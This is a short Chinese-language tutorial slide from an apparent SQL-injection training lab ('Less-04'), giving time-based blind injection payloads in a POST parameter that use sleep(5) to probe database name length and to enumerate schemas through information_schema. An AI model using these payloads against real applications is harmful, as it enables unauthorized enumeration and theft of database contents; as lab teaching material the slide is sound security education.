

# Less-04_ post注入_02
8.  keyWordName=fadsfadfdasfasdfasfd‘ or if(length(database())>1,1,sleep(5))# 通过返回信息来判断当前数据库长度，和less02基本相似
9. keyWordName=fadsfadfdasfasdfasfd‘ or if(((select length(schema_name) from information_schema.schemata limit 0,1)>1),1,sleep(5))# 也可通过这种遍历的方法判断所有的数据库。 速度较慢，推荐使用脚本。
10. 接下来的使用方法就是和以前相同了。